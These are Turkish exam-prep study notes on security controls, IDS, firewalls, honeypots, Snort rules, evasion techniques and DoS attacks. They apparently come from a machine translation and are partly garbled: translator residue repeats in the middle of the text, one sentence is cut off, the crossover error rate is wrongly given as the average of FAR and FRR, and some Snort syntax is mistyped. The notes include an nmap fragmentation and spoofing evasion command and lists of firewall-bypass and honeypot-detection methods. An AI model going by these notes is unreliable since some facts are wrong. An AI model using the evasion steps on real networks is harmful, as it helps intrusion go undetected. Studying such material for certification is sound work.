- Fiziksel önlemler, hava kalitesi, güç endişeleri, nem kontrol sistemleri gibi şeyleri de içerir. 
- Teknik önlemler, smart kartlar ve biyometrik sistemlerdir. Teknik önlemler, bir ortamda gerçekleştirilebilecek teknik saldırıları önlemek amacıyla alınan önlemlerdir. Smart kartlar ve biyometrik sistemler, teknik önlemler arasında yaygın olarak kullanılan araçlardır. Örneğin, bir kullanıcının bir bilgisayar sistemine erişimini kısıtlamak için smart kartlar kullanılabilir veya bir kullanıcının bir sisteme girişini biyometrik verilerine göre kontrol etmek için biyometrik sistemler kullanılabilir. Bu tür önlemler, teknik saldırıları önlemek amacıyla alınan önlemlerdir. 
- Operasyonel Ölçümler -  İşletme önlemleri, bir güvenlik odaklı işletmenin uygulamasını sağlamak için kuruluşunuz tarafından oluşturulan politikalar ve prosedürlerdir. İşletme önlemleri, bir ortamda gerçekleştirilebilecek işletme saldırılarını önlemek amacıyla alınan önlemlerdir. Bu önlemler, bir kuruluşun güvenlik odaklı bir işletme yürütmesini sağlamak amacıyla oluşturulan politikalar ve prosedürlerdir. Örneğin, bir kuruluşun veri güvenliği için bir veri güvenlik politikası oluşturması ve bu politikayı uygulamaya alması gibi önlemler İşletme önlemleridir. 
- Erişim Kontrolleri - Erişim kontrolleri, kontrol edilen alanlara erişimi önlemek amacıyla tasarım edilen fiziksel önlemlerdir. Erişim kontrolleri, bir ortamda belirli alanlara erişimin kısıtlanmasını amaçlar. Örneğin, bir bina girişinde kapı güvenlik kameralarının kullanılması veya bir bilgisayar odasına girişin yalnızca yetkili kişiler tarafından yapılması gibi önlemler erişim kontrolleridir. Bu önlemler, bir ortamda belirli alanlara erişimin kısıtlanmasını amaçlar ve böylece bu alanlara yalnızca yetkili kişilerin erişebilmesini sağlar. 
- Biyometrik sistemler, "senin bir şey olduğun" kavramından kaynaklanan bir kimlik doğrulama için alınan önlemlerdir. 
- Yanlış reddedme oranı (FRR), bir biyometrik sistem tarafından geçerli bir kullanıcının reddedilmesi anlamına gelir. Yanlış reddedme oranı (FRR), bir biyometrik sistem tarafından kullanıcının gerçekte geçerli olduğu halde reddedilmesi durumudur. Örneğin, bir kullanıcının parmak izi taraması yapıldığında sistem tarafından geçersiz olarak değerlendirilmesi ve kullanıcının sisteme erişimine izin verilmemesi durumu yanlış reddedme oranı (FRR) örneğidir. Yanlış reddedme oranı (FRR), bir biyometrik sistem tarafından gerçekte geçerli olan kullanıcıların reddedilme oranını ölçer. 
- Yanlış kabul oranı (FAR), bir biyometrik sistem tarafından geçersiz bir kullanıcının kabul edilmesi anlamına gelir. Yanlış kabul oranı (FAR), bir biyometrik sistem tarafından kullanıcının gerçekte geçersiz olduğu halde kabul edilmesi durumudur. Örneğin, bir kullanıcının parmak izi taraması yapıldığında sistem tarafından geçerli olarak değerlendirilmesi ve kullanıcının sisteme erişimine izin verilmesi durumu yanlış kabul oranı (FAR) örneğidir. Yanlış kabul oranı (FAR), bir biyometrik sistem tarafından gerçekte geçersiz olan kullanıcıların kabul edilme oranını ölçer. 
- Çapraz hata oranı (CER), yanlış kabul oranı (FAR) ve yanlış reddedme oranı (FRR)'nin bir kombinasyonudur ve bir sistemin ne kadar iyi olduğunu belirler. Çapraz hata oranı (CER), bir biyometrik sistemin yanlış kabul oranı (FAR) ve yanlış reddedme oranı (FRR) değerlerinin karşılaştırılması sonucu elde edilen bir değerdir. Çapraz hata oranı (CER), bir biyometrik sistemin ne kadar iyi olduğunu belirler ve bu değer düşük olduğu takdirde sistemin doğruluk oranı da yüksek olur. Örneğin, bir biyometrik sistemin yanlış kabul oranı (FAR) %0,1 ve yanlış reddedme oranı (FRR) %1 ise, bu sistemin çapraz hata oranı (CER) %0,55 olur. Türkçe çevirisi olarak, "Çapraz hata oranı (CER), yanlış kabul oranı (FAR) ve yanlış reddedme oranı (FRR)'nin bir kombinasyonudur ve bir sistemin ne kadar iyi olduğunu belirler 
- Hackerlar genellikle çevre felaketlerine endişe etmezler, ancak bu bir pentest açısından düşünülmesi gereken bir şeydir (kasırgalar, hortumlar, sel gibi). Türkçe çevirisi olarak, "Hackerlar genellikle çevre felaketlerine endişe etmezler, ancak bu bir pentest açısından düşünülmesi gereken bir şeydir (kasırgalar, hortumlar, sel gibi)" anlamına gelir. Bu cümle, hackerların genellikle çevre felaketlerine endişe etmediğini ancak bir pentest açısından düşünüldüğünde bu tür olayların da dikkate alınması gerektiğini belirtir. Örneğin, bir kuruluşun sistemlerine sıfırdan bir pentest yaptığınızda, çevre felaketlerinin bu sistemleri nasıl etkileyebileceğini de dikkate almanız gerektiğini ifade etmektedir. 

Önleme 

- Görevlerinin ayrılması 
- Görev rotasyonu 
- Kontrollü erişim 
- En az ayrıcalık 
- Loglama ve Denetim 
- Politikalar 

IDS, Güvenlik Duvarları ve Honeypot'lardan Kaçınma 

IDS/IPS - Temel Kavramlar 

Girişim Önleme Sistemi (IPS), aktif olarak etkinlikleri izler ve anormallikler arar ve bu anormallikler bulunduğunda uyarı veya bildirim yapar VE bu anormallikler bulunduğunda harekete geçer. 

Girişim Tespit Sistemi (IDS), pasif olarak etkinlikleri izler ve anormallikler arar ve bu anormallikler bulunduğunda uyarı veya bildirim yapar. 

Dağıtım Türleri - HIDS & NIDS & WIDS: 

Host tabanlı - Yerel olarak yüklenerek tek bir cihaz/host üzerindeki etkinliği izler. Örneğin, bir bilgisayarın işletim sistemine yüklenen bir host tabanlı güvenlik sistemi, bu bilgisayar üzerinde gerçekleşen etkinlikleri izleyecektir. Host tabanlı sistemler, tek bir cihaz üzerinde çalışır ve genellikle yerel olarak yüklenir. Bu sayede, host tabanlı sistemler tek bir cihaz üzerinde gerçekleşen girişimleri tespit edebilir ve bildirebilir. 

Ağ tabanlı - Uzak sensörler kullanarak bir ağ üzerindeki etkinliği izler ve sonuçları merkezi bir sisteme bildirir. Sıklıkla güvenlik bilgi ve SIEM sistemiyle eşleştirilir ve analiz için kullanılır. Sıklıkla ters ARP veya ters DNS aramaları kullanılır ve kaynak bulunur. Örneğin, bir kuruluşun ağında yer alan çeşitli cihazlar üzerinde gerçekleşen etkinlikleri izleyen bir ağ tabanlı sistem, bu cihazlardan toplanan verileri merkezi bir sisteme bildirir. Ağ tabanlı sistemler, bir ağ üzerinde çalışır ve genellikle uzak sensörler kullanılarak etkinlikleri izler. Bu sayede, ağ tabanlı sistemler bir ağ üzerinde gerçekleşen girişimleri tespit edebilir ve bildirebilir. 

Bilgi ve Davranış Temelli Tespit: 

1. Bilgi Temelli (İmza Tabanlı | Desen Eşleştirme) - En yaygın tespit şeklidir. Tüm trafiği değerlendirmek için profil veya imza veritabanları kullanır. Örneğin, bir kuruluşun ağında gerçekleşen etkinlikleri tespit etmek için kullanılan bir bilgi temelli sistem, tüm trafiği değerlendirmek için profil veya imza veritabanlarına başvurur. Bilgi temelli sistemler, çeşitli girişimleri tespit etmek için kullanılan en yaygın yöntemlerden biridir ve genellikle bir ağ üzerinde çalışır. 
2. Davranış Tabanlı (İstatistiksel | Anormal | Heuristik) - İzlenen sistem/ağ için bir davranış tabanı oluşturarak başlar ve sonra tüm trafiği o tabana göre karşılaştırır ve sapmaları arar. Bir AI veya Uzman Sistem olarak etiketlenebilir. Örneğin, bir kuruluşun ağında gerçekleşen etkinlikleri tespit etmek için kullanılan bir davranış tabanlı sistem, İzlenen sistem/ağ için bir davranış tabanı oluşturarak başlar ve sonra tüm trafiği o tabana göre karşılaştırır. Davranış tabanlı sistemler, çeşitli girişimleri tespit etmek için kullanılan diğer yöntemlerden farklı olarak, bir ağ üzerinde gerçekleşen etkinlikleri izleyerek ve davranış tabanına göre karşılaştırarak çalışır. Bu sayede, davranış tabanlı sistemler bir ağ üzerinde gerçekleşen girişimleri tespit edebilir ve bildirebilir. 

—------—------------------------------------------------------------------------------------------------------- 

IDS Uyarısı Türleri 

● Gerçek Pozitif --> Saldırı - Uyarı ✅✅ 

● Yanlış Pozitif --> Saldırı Yok - Uyarı ❌✅ 

● Yanlış Negatif --> Saldırı - Uyarı Yok ✅❌ 

○ Bu en kötü senaryo 

● Gerçek Negatif --> Saldırı Yok - Uyarı Yok ❌❌ 

—------—------------------------------------------------------------------------------------------------------- 

Güvenlik Duvarları - Temel Kavramlar 

Güvenlik duvarları genellikle NAC cihazları olarak görülür. Trafiği filtrelemek için kural kümelerinin 

kullanılması, güvenlik politikasını uygulayabilir. 

Güvenlik duvarı türleri: 

● Durum Bilgili (Dinamik Paket Filtreleme) - Katman 3 + 4 (Ağ + Taşıma katmanı) 

● Durumsuz (Statik Paket Filtreleme) - Katman 3 (Ağ) 

● Derin Paket İnceleme - Katman 7 (Uygulama Katmanı) 

● Proxy Güvenlik Duvarı - Güvenilmeyen ve güvenilen uç noktalar (sunucu/ana 

bilgisayarlar/istemciler) arasındaki iletişime aracılık eder. Proxy güvenlik duvarı, Uygulama 

Katmanı 7'de mesajları filtreleyerek ağ kaynaklarını koruyan bir ağ güvenlik sistemidir. Proxy 

güvenlik duvarı, uygulama güvenlik duvarı veya ağ geçidi güvenlik duvarı olarak da 

adlandırılabilir. 

Proxy Türleri: 

● Devre düzeyinde proxy - Katman 5'te (Oturum katmanı) çalışan Güvenlik Duvarı; Talep 

edilen bir oturumun meşru olup olmadığını belirlemek için paketler arasındaki TCP 

anlaşmasını izlerler. 

● Uygulama düzeyinde proxy - Uygulamanın protokollerinde istemci bilgisayar istekleri için 

proxy görevi gören herhangi bir hizmet veya sunucu. 

❖ Uygulama düzeyinde bir proxy, proxy hizmetleri sağladığı belirli uygulamayı bilen bir 

proxy'dir; uygulama protokolündeki komutları anlar ve yorumlar. Devre düzeyinde 

proxy, uygulama protokolünü yorumlamadan istemci ile sunucu arasında bir devre 

oluşturan proxy'dir. 

● Çok bağlantılı Güvenlik Duvarı (çift bağlantılı) - İki veya daha fazla arabirimi olan 

Güvenlik Duvarı; Bir arabirim güvenilmeyen ağa ve başka bir arabirim güvenilir ağa bağlıdır. 

Bir DMZ, yalnızca üçüncü bir arabirim eklenerek çok bağlantılı bir güvenlik duvarına 

eklenebilir. 

● Savunma ana bilgisayarları - İnternete açık olan ancak saldırılara dayanacak şekilde 

güçlendirilmiş uç nokta; Dahili kaynakları korumak için tasarlanmış, ekranlı alt ağdaki ana 

bilgisayarlar. 

● Ekranlı ana bilgisayar - Bir güvenlik duvarı tarafından korunan uç nokta. 

● Paket filtreleme - Yalnızca üstbilgilere bakan güvenlik duvarları 

❖ Yalnızca, izin verilmedikçe trafiği dolaylı olarak reddeden kuralları kullanır. 

❖ Çoğu zaman, harici ve dahili IP adresleri arasında bire bir veya birden çoğa ilişki 

uygulayabilen ağ adresi çevirisini (NAT) kullanır. 

❖ Özel bölge - yalnızca o bölgeden gelen isteklere yanıt veren dahili ana bilgisayarları 

barındırır 

Bal Küpü 🍯 

Honeypot'lar, ağınızdaki üretim sistemleriyle birlikte dağıtılan sahte sistemler veya sunuculardır. 

Saldırganlar için cazip hedefler olarak konuşlandırıldıklarında bal küpleri, mavi ekipler için güvenlik 

izleme fırsatları ekleyebilir ve düşmanı gerçek hedefinden yanlış yönlendirebilir. 

● Bal ağı - Bir ağ üzerindeki iki veya daha fazla bal küpü bir bal ağı oluşturur. Bal ağları ve bal 

küpleri genellikle daha büyük Ağ İzinsiz Giriş Tespit Sistemlerinin parçaları olarak uygulanır. 

● Honeyfarm, bal küpleri ve analiz araçlarının merkezi bir koleksiyonudur. 

Honeypot Çeşitleri: 

\1. Düşük etkileşim ---> Sıklıkla suçluların dikkatini çeken hizmetleri ve sistemleri simüle 

eder/taklit eder. Bot ağları ve solucan kötü amaçlı yazılımları gibi kör saldırılardan veri 

toplamak için bir yöntem sunarlar. 

\2. Yüksek etkileşim ---> Tüm hizmetleri ve uygulamaları simüle eder ve tamamen tehlikeye 

girecek şekilde tasarlanmıştır 

\3. Üretim ---> Genellikle izinsiz giriş tespit sisteminin (IDS) bir parçası olarak, tam olarak 

çalışan ağlar ve sunucular içinde sahte sistemler olarak hizmet edin. Güvenlik açıklarını 

azaltmaya yardımcı olmak için kötü niyetli etkinliği analiz ederken suçluların dikkatini gerçek 

sistemden saptırırlar. 

\4. Araştırma ---> Eğitim ve güvenlik geliştirme amaçlı kullanılır. Saldırıyı analiz etmek için 

çalındığında izleyebileceğiniz izlenebilir veriler içerirler 

● Bal Küpü Araçları: 

○ Specter 

○ Honeyd 

○ KFSensor (Honeypot IDS) 

Nmap ile kaçmak 

Kaçınma ve Gizlilik için kullanışlı anahtarlar: 

Nmap Switch Information 

-v Ayrıntılı düzey 

-sS TCP SYN taraması 

-T Taramayı gerçekleştirmek için zaman şablonu 

-f Parçalanmış IP paketleri kullan 

-f --mtu Parçalanmış paketleri kullan ve MTU'yu ayarla 

-D IP address Decoy: <decoy1,decoy2[,ME],...>: Bir taramayı tuzaklarla örtün 

-S Kaynak IP adresini kandırma 

--send-eth Ethernet düzeyinde paketler kullanmamızı sağlar. IP katmanını 

atlayarak akış içinde ham Ethernet çerçeveleri gönderir 

--data-length Veri/çerçeve uzunluğunu belirtin 

--source-port İletişim kurmak istediğiniz rastgele bir bağlantı noktası belirtin 

—------—------------------------------------------------------------------------------------------------------- 

Örnek: 

● IPv4 parçalı 50 baytlık paket boyutu gönderir; Paketler, veri göndermek ve bir 

Araştırma/Tarama tekniği olarak algılamak için çok küçük: 

nmap -v -sS -f -mtu 32 --send-eth --data-length 50 --source-port 8965 -T5 192.168.0.22 

❖ Parçalanma, IDS/Firewall Evasion tekniklerinin kalbidir. 

—------—------------------------------------------------------------------------------------------------------- 

SNORT Kullanımı 

SNORT, açık kaynaklı bir ağ saldırı tespit sistemidir (NIDS). Snort, ağ trafiğini gerçek zamanlı olarak 

izleyen, tehlikeli bir yük veya şüpheli anormallikleri tespit etmek için her paketi yakından inceleyen 

bir paket dinleyicisidir. 

● Snort, açık kaynaklı, yaygın olarak kullanılan bir IDS'dir. 

● Bir sniffer, trafik kaydedici ve bir protokol analizörü içerir 

● Üç farklı modda çalışır 

○ Sniffer - Paketleri gerçek zamanlı olarak izler 

○ Packet logger - Daha sonra incelenmek üzere paketleri diske kaydeder 

○ NIDS - Ağ trafiğini çeşitli kural kümelerine göre analiz eder 

● Yapılandırma, Linux'ta /etc/snort ve Windows'ta C:\snort\etc konumundadır; dosya 

snort.conf'tur. 

SNORT temel komutları: 

Çalışma modları: 

● Sniffer olarak snort ---> snort -v 

● Paket kaydedici olarak snort ---> snort -l 

● NIDS olarak snort ---> snort -A veya snort -c <path\_to\_conf\_file> 

Kullanım örneği: 

● snort -i 4 -l c:\Snort\log -c c:\Snort\etc\snort.conf -T 

○ Bu komut, snort yapılandırmasını ve kurallarını test edecek ve başlatmadan herhangi 

bir hata olup olmadığını kontrol edecektir. 

○ -i 4 ---> arayüz belirleyici, arayüz 4 olması durumunda. 

○ -l ---> günlük kaydı için 

○ -c ---> yolu belirten Snort kuralları dosyasını kullan 

○ -T ---> Yalnızca test için, bu Snort'un başlatılmasını engeller; Esasen herhangi bir 

hata olup olmadığını ve kuralların iyi olup olmadığını kontrol etmek için. 

● snort -i 4 -c c:\Snort\etc\snort.conf -l c:\Snort\log -K ascii 

○ Bu komut Snort NIDS'i başlatacak ve her şeyi ASCII'de günlüğe kaydedecektir. 

Temel komutlar: 

Bayrak Bilgi 

-A Uyarı modunu ayarlayın: hızlı, dolu, konsol, test veya hiçbiri 

-b Paketleri tcpdump biçiminde günlüğe kaydeder (çok daha hızlı!) 

-B <mask> CIDR maskesini kullanarak uyarılarda ve paket dökümlerinde IP adreslerini 

gizleyin 

-c <rules> Kurallar dosyasını kullan 

-C Yükleri yalnızca karakter verileriyle yazdır (onaltılık değil) 

-l Kayıt dizinini belirtir (tüm uyarılar ve paket günlükleri bu dizine yerleştirilir) 

-i <arayüz numarası> Snort'un hangi arabirimi dinleyeceğini belirtir 

-K Günlüğe kaydetme modu (pcap[varsayılan], ascii, hiçbiri) 

-? Tüm anahtarları ve seçenekleri listeler ve ardından çıkar 

SNORT Kuralları 

SNORT, izleme ve algılama yeteneklerinin özelleştirilmesine izin veren bir kural motoruna sahiptir. 

● Kullanılabilir üç kural eylemi vardır 

○ i. Uyarmak 

○ ii. Geçmek 

○ iii. Kayıt 

● Ve üç kullanılabilir IP protokolü: 

○ i. TCP 

○ ii. UDP 

○ iii. ICMP 

Bir Snort kuralını yıkmak: 

alert icmp any any -> &HOME\_NET any (msg:"ICMP test"; sid:1000001; rev:1; 

classtype:icmp-event;) 

Kural bölümü Bilgi 

icmp uyarısı herhangi biri -> 

$HOME\_NET herhangi biri Kural Başlığı ⬇ 

alert Kural eylemi. Snort, ayarlanan koşul karşılandığında bir uyarı 

oluşturur. 

any (1st) Kaynak IP. Snort tüm kaynaklara bakacak 

any (2nd) Kaynak portu. Snort tüm bağlantı noktalarına bakacak 

-> Yön. Kaynaktan hedefe; (kaynak -> hedef) 

&HOME\_NET Hedef IP. Korumaya çalıştığınız ağ veya ağları tanımlayan bir değişken 

anlamına gelen snort.conf dosyasındaki HOME\_NET değerini kullanıyoruz. 

any (3rd) Hedef bağlantı noktası. Snort, korunan ağdaki tüm bağlantı noktalarına 

bakar 

(msg:"ICMP test"; 

sid:1000001; rev:1; 

classtype:icmp-event;) Kural Seçenekleri ⬇ 

msg:"ICMP test" Snort bu mesajı uyarıya dahil edecek 

sid: 1000001 Snort kuralı kimliği. Unutmayın, 1.000.000'den küçük tüm sayılar 

saklıdır, bu nedenle 1000001 ile başlıyoruz (1.000.000'den büyük olmak kaydıyla herhangi bir sayı 

kullanabilirsiniz) 

rev:1 Revizyon numarası. Bu seçenek daha kolay kural bakımı sağlar 

classtype:icmp-event Kuralı, önceden tanımlanmış Snort kategorilerinden biri olan 

"icmp-event" olarak sınıflandırır. Bu seçenekler, kural organizasyonuna yardımcı olur 

—------—------------------------------------------------------------------------------------------------------- 

Kural Örnekleri: 

alert tcp 192.168.x.x any -> &HOME\_NET 21 (msg:"FTP connection attempt"; sid:1000002; 

rev:1;) 

● Herhangi bir bağlantı noktasıyla 192.168.x.x kaynak IP adresinde TCP uyarısı; 21 numaralı 

bağlantı noktasında HOME\_NET hedefi. 

alert tcp $HOME\_NET 21 -> any any (msg:"FTP failed login"; content:"Login or password 

incorrent"; sid:1000003; rev:1;) 

● HOME\_NET bağlantı noktası 21'de (FTP) herhangi bir hedef IP adresine ve bağlantı 

noktasına kaynak olarak TCP uyarısı. 

alert tcp !HOME\_NET any -> $HOME\_NET 31337 (msg : "BACKDOOR ATTEMPT-BackOrifice") 

● Bu, harici bir ağdan dahili ağa 31337 numaralı bağlantı noktasından gelen trafik hakkında 

uyarı verir. 

Örnek çıktı 

● 10/19-14:48:38.543734 0:48:542:2A:67 -> 0:10:B5:3C:34:C4 type:0x800 len:0x5EA 

● xxx -> xxx TCP TTL:64 TOS:0x0 ID:18112 IpLen:20 DgmLen:1500 DF 

● Önemli bilgiler kalın yazılmıştır 

Kaçınma Kavramları ve Teknikleri 

● Ekleme Saldırısı - Saldırgan, IDS'yi geçersiz paketleri işlemeye zorlar. 

● Evasion - Bir uç nokta, IDS'nin normalde reddedeceği bir paketi kabul eder. Tipik olarak, 

saldırı paketlerinin IDS üzerinden taşınmalarına izin vermek için parçalanması yoluyla 

yürütülür. 

● Gizleme - Saldırı paketlerini, hedefin bunları çözebileceği ancak IDS'nin çözemeyeceği 

şekilde kodlamak. 

○ Unicode 

○ Polimorfik kod 

○ Şifreleme 

○ İmza uyuşmazlığına neden olacak yol manipülasyonu 

● Yanlış Pozitif Oluşturma Olayları - IDS ve operatörlerin dikkatini dağıtma/ezici hale getirme 

umuduyla alarmları başlatmak için tasarlanmış kötü amaçlı paketler hazırlamak. 

● Oturum Ekleme - Başka bir tür parçalanma saldırısı. 

● Unicode kodlama - web istekleriyle çalışır - ascii yerine Unicode karakterler kullanmak 

bazen geçilebilir 

● Parçalanma saldırısı - IDS'nin gerçek amacı tespit edememesi için paketleri böler 

● Çakışan Parçalar - TCP sıra numaralarıyla örtüşen bir grup küçük parça oluşturun. 

● Yaşam Süresi (TTL) Saldırısı - Saldırganın, kimin hangi paketleri ne zaman alacağını 

kontrol etmek üzere TTL değerlerinin ayarlanmasına izin vermek için hedef ağ hakkında 

içeriden bilgi sahibi olmasını gerektirir. 

● Geçersiz RST Paketleri - IDS'yi kandırarak hedefle iletişim oturumunu yok sayması için 

RST bayrağının manipülasyonu. 

● Acil Durum Bayrağı - URG - Manipülasyon URG bayrağı, hedef ve IDS'nin farklı paket 

kümelerine sahip olmasına neden olur, çünkü IDS, URG bayrağına bakılmaksızın TÜM 

paketleri işlerken, hedef yalnızca URG trafiğini işler. 

● Polimorfik Kabuk Kodu - Sürekli değiştirerek kalıp eşleştirmeyi patlatın. 

● ASCII Kabuk Kodu - Kalıp eşleştirmeyi atlamak için ASCII karakterlerini kullanın. 

● Uygulama Düzeyinde Saldırılar - IDS tarafından incelenemediği için büyük dosyaları 

aktarmak ve sıkıştırılmış verilerdeki saldırıları gizlemek için kullanılan sıkıştırmadan 

yararlanmak. 

● Eşzamansızlaştırma - IDS'yi meşru olmayan saldırı trafiğinin sıra numaralarına dikkat 

etmemesi için kandırmak yerine ona takip etmesi için yanlış bir dizi dizi vermek için TCP 

SYN'yi manipüle etme. 

● Şifreleme - Saldırıyı gizlemek için şifreleme kullanma. 

● Ağı taşma - Güvenlik duvarlarını/IDS'yi ve ağ yöneticilerini karıştırmak için amaçladığınız 

saldırı olmayan uyarıları tetikleyin; IDS'yi ezici. 

❖ Yavaşlayın - nmap'in -T5 anahtarını kullanmak gibi daha hızlı taramalar sizi yakalar. 

Profesyoneller daha iyi sonuçlar almak için -T1 anahtarını kullanır 

Kaçınma Araçları 

● Nessus - Ayrıca bir güvenlik açığı tarayıcısı 

● ADMmutate - İmza dosyaları tarafından tanınmayan betikler oluşturur 

● NIDSbench - Bitleri parçalamak için daha eski bir araç 

● Inundator - Taşkın aracı 

Güvenlik Duvarı Kaçırma 

• Firewalking - Ağ geçidi ACL filtrelerini belirlemek ve IP paket yanıtlarını analiz ederek dahili 

ağların eşlenmesine izin vermek için TTL değerlerinin kullanılması; Neyin açık olduğunu belirlemek 

için bir güvenlik duvarındaki her bağlantı noktasından geçmek. 

• Banner Kapma - FTP, TELNET ve web sunucusu banner'ları aranıyor. 

• IP Adresi Sahtekarlığı - Saldırganın güvenilir bir ana bilgisayar kılığına girmesine izin veren ele 

geçirme tekniği. 

• Kaynak Yönlendirme - Bir paketin göndericisinin kullanılacak yolu kısmen veya tamamen 

belirlemesine izin verir. 

• Minik Parçalar - Saldırının gerçek amacını gizlemek için bilgilerin birden fazla paket arasında 

parçalanmasına izin vererek YALNIZCA TCP başlık bilgisi için KONTROL ETTİKLERİ Güvenlik 

Duvarları ile başarılıdır. 

• ICMP Tünel Oluşturma - RFC (792) çerçevenin veri bölümünde ne tür verilerin gittiğini açıkça 

tanımlamadığından, ICMP yankı paketleri aracılığıyla bir arka kapı kabuğunun tünellenmesine izin 

verir ve saldırı trafiğinin ne zaman kabul edilebilir olarak görülmesine izin verir? eklendi. Güvenlik 

duvarları veri çerçevesinin yük bölümünü incelemezse, saldırıya izin vererek verilerin geçmesine izin 

verir. 

• ACK Tüneli Oluşturma - Birçok güvenlik duvarı ACK paketlerini kontrol etmediğinden, güvenlik 

duvarını kandırarak paketlere izin vermek için ACK bayrağının kullanılması. 

• HTTP Tüneli Oluşturma - Saldırıları 'gizlemek' için HTTP trafiğinin kullanılması. 

• SSH Tünel Oluşturma - Saldırı trafiğini şifrelemek ve göndermek için SSH kullanımı. 

• MitM Saldırıları - Güvenlik duvarlarını atlamak için DNS ve yönlendirme manipülasyonu kullanımı. 

• XSS Saldırıları - Bir web uygulamasında son kullanıcıdan gelen giriş parametrelerinin ve sunucu 

yanıtlarının işlenmesi etrafındaki güvenlik açıklarından yararlanmaya izin verir. Saldırgan, 

çalıştırıldıktan sonra güvenlik duvarını atlamaya zorlamak için web sitesine kötü amaçlı HTML/JS 

kodu enjekte eder. 

★ URL yerine IP kullanın - yerinde filtrelemenin yapısına bağlı olarak çalışabilir 

★ Proxy Sunucularını/Anonimleştiricileri Kullanın - Yerinde filtrelemenin yapısına bağlı olarak 

çalışabilir 

★ ICMP Tip 3 Kod 13, trafiğin güvenlik duvarı tarafından engellendiğini gösterecektir. 

★ ICMP Tip 3 Kod 3, istemcinin kendisinin bağlantı noktasını kapattığını söyler 

● Araçlar 

○ Gizli TCP 

○ ICMP Kabuğu 

○ 007 Kabuk 

• Bir güvenlik duvarını aşmanın en iyi yolu, her zaman güvenliği ihlal edilmiş bir dahili makine 

olacaktır. 

Honeypot nasıl tespit edilir? 

Üzerinde çalışan prob servisleri; Bir hizmetin kullanılabilir olduğunu gösteren ancak üç yönlü el 

sıkışmayı reddeden bağlantı noktaları, sistemin bir bal küpü olduğunu gösterebilir. 

● Katman 7 (Uygulama) - Sunucudan gelen yanıtların gecikmesini inceleyin 

● Katman 4 (Aktarım) - Windows boyutu 0 olarak ayarlandığında bile, gelen paketlerin sürekli 

Onaylanması için dönen TCP pencere boyutunu inceleyin. 

● Katman 2 (Veri Bağlantısı) - Honeypot ile aynı ağdaysanız, paketlerde 'Kara Delik' 

(0:0:f:ff:ff:ff) olduğunu gösteren MAC adreslerini arayın. 

❖ Sınav sunulan her bilgiyi kapsamayacak, ancak genel bir fikir sahibi olmakta fayda var. 

● Honeypot sanallaştırılmışsa, IEEE tarafından yayınlandığı şekliyle satıcı tarafından atanan 

MAC adres aralıklarını arayın. 

● Honeypot Honeyd tipiyse, algılamak için zamana dayalı TCP parmak izi yöntemlerini 

kullanın. 

● Kullanıcı Modu Linux (UML) bal küpünü algılama, UML'ye özgü ayarlara ve bilgilere sahip 

olan proc/mount'ları, proc/interrupt'ları ve proc/cmdline'ı analiz edin. 

● Sebek tabanlı bal küplerini tespit eden Sebek, read() aracılığıyla erişilen her şeyi ağa 

göndermeden önce günlüğe kaydeder ve bu da bir gösterge olabilecek tıkanıklığa neden 

olur. 

● snort\_inline bal küplerini tespit etmek, snort\_inline değiştirilmiş paketleri başka bir aracılığıyla 

yakalayarak giden paketleri analiz edilir. 

\8. Denial of Service 

**Dos** 

Hizmet Reddi (DoS), bir hizmete yönelik normal işlevini bozan ve diğer kullanıcıların bu hizmete erişmesini engelleyen bir saldırı türüdür. Bir DoS saldırısı için en yaygın hedef, web sitesi gibi çevrimiçi bir hizmettir, ancak saldırılar ağlara, makinelere ve hatta tek bir programa karşı da başlatılabilir. 

**DoS saldırıları aşağıdaki sorunlara neden olabilir:**  

• Etkisiz hizmetler  

• Erişilemeyen hizmetler  

• Ağ trafiğinin kesilmesi  

• Bağlantı paraziti 

**DDos** 

DDoS, Dağıtılmış hizmet reddi (DDoS) saldırısı, genellikle **botnet** olarak adlandırılan şekilde küresel olarak dağıtılan, güvenliği ihlal edilmiş çok sayıda cihazdan başlatılır. 

 

**Hedef**:  

• Bir sistemi kaldırmaya veya yetkili kullanıcıların erişimini engellemeye çalışır. 

**Botnet** 

Bir bilgisayar korsanının dağıtılmış bir saldırı başlatmak için kullandığı zombi bilgisayarlar ağı.  

• Botnet'ler, **spam gönderme, veri çalma, fidye yazılımı, reklamlara hileli tıklama veya dağıtılmış hizmet reddi (DDoS)** **saldırıları** gibi kötü amaçlı görevleri yerine getirmek üzere tasarlanabilir.  

• HTTP, HTTPS, IRC veya ICQ üzerinden kontrol edilebilir. 

**• Botnet Tarama Yöntemleri:**  

**o Random -** Rastgele savunmasız cihazları arar.  

**o Hitlist -** Güvenlik açıklarını tarayacak cihazların bir listesi verilir. 

o **Topolojik -** Şu anda istismar edilen cihazlar tarafından keşfedilen hostları tarar.  

o **Yerel alt ağ -** Yerel ağı savunmasız cihazlar için tarar. 

o **Permütasyon -** Sözde rastgele permütasyon algoritması ile oluşturulan cihazların listesini tarar. 

**Üç Çeşit DoS / DDoS** 

**1. Volumetrik Saldırılar** 

• Hedef ağın veya hizmetin bant genişliğini tüketir.  

• Kullanıcıların erişiminin reddedildiği kadar çok bant genişliği tüketmek amacıyla hedef ağa büyük miktarda trafik gönderir.  

• **Bandwitdh tükenme saldırısı:** Flood Saldırısı ve Amplifikasyon saldırısı. 

**o Saldırılar:**  

▪ UDP flood attack  

▪ ICMP flood attack  

▪ Ping of Death attack 

▪ Smurf attack (IP)  

▪ Fraggle (UDP)  

▪ Malformed IP packet flood attack  

▪ Spoofed IP packet flood attack 

⚠**️ Volumetrik ataklar saniyedeki Bit (Bps) cinsinden ölçülür.** 

**2. Protokol Saldırıları** 

` 	`• Yük dengeleyiciler, **güvenlik duvarları ve uygulama sunucuları** gibi ağ altyapısı bileşenlerinde bulunan **bağlantı durumu tabloları** gibi diğer kaynak türlerini kullanır. 

**o Saldırılar:**  

▪ SYN flood attack  

▪ Fragmentation attack  

▪ ACK flood attack  

▪ TCP state exhaustion attack  

▪ TCP connection flood attack  

▪ RST attack 

o ⚠️ **Protokol saldırıları Saniyedeki Paket Sayısı (Pps) cinsinden ölçülür.** 

**3.Uygulama Katmanı Saldırıları** 

• Düşük ve yavaş saldırılar, GET / POST floods, Apache, Windows veya OpenBSD güvenlik açıklarını hedef alan saldırılar ve daha fazlasını içerir.  

• Uygulamanın çalışması için gerekli kaynakları tüketir.  

• Web sunucularını, web uygulamalarını ve belirli web tabanlı uygulamaları hedefler.  

• HTTP / HTTPS ve SNMP gibi daha yüksek katmanlı (7) protokolleri kötüye kullanır. 

**o Saldırılar:**  

▪ HTTP GET/POST attack  

▪ Slowloris attack 

**o ⚠️ Uygulama katmanı saldırıları, Saniye başına istek sayısı (Rps) cinsinden ölçülür.**  

**o ⚠️ Uygulama düzeyi saldırıları zayıf koda karşıdır.** 

**Saldırı Tanımlamaları** 

